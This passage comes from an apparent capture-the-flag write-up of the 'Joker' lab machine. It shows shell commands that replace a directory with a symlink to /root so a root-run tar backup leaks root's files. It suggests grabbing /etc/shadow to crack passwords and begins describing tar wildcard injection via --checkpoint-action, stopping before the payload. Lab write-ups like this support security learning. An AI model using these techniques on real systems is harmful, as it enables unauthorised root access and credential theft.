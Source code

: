 ### Exploit #1 - File Read as Root via Symbolic Link

As I believe that root is running `tar` on the `development` directory every five minutes, I’ll just move the `development` directory and replace it with a symbolic link pointing to `/root`:

```

alekos@joker:~$ mv development{,.orig}
alekos@joker:~$ ln -s /root development
alekos@joker:~$ ls -l 
total 20
drwxrwx--- 2 root   alekos 12288 Aug  4 04:20 backup
lrwxrwxrwx 1 alekos alekos     5 Aug  4 04:22 development -> /root
drwxr-x--- 5 alekos alekos  4096 May 18  2017 development.orig
-r--r----- 1 root   alekos    33 May 19  2017 user.txt

```

Now when it runs, I’ll look in the result:

```

alekos@joker:~/backup$ tar xvf dev-1596504301.tar.gz -C /tmp/
backup.sh
root.txt

```

I can read the flag:

```

alekos@joker:~/backup$ cat /tmp/root.txt
d452b7fa************************

```

I could also grab files like `/etc/shadow` and try to break the root password.

### Exploit #2 - –checkpoint

#### Background

[gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows how to get execution out of `tar`. My favorite is the `--to-command` flag, but that only works on extracting, and this job is creating an archive (I showed that in [TarTarSauce](/2018/10/20/htb-tartarsauce.html#to-command)). The other strategy is to use the flags `--checkpoint=1` and `--checkpoint-action=exec=[thing to run]`.

I just wrote a couple weeks ago in [Shrek](/2020/07/22/htb-shrek.html#chown-wildcard-exploit) about a relatively famous [paper about exploiting wildcards](https://www.exploit-db.com/papers/33930). In Shrek, it was exploiting `chown`, and here, `tar`. The short story is that when the shell sees a `*`, it expands it out to all the files space separated. If I can make a filename that is actually an option for the program calling it, it will be handled as an option.

#### Prep
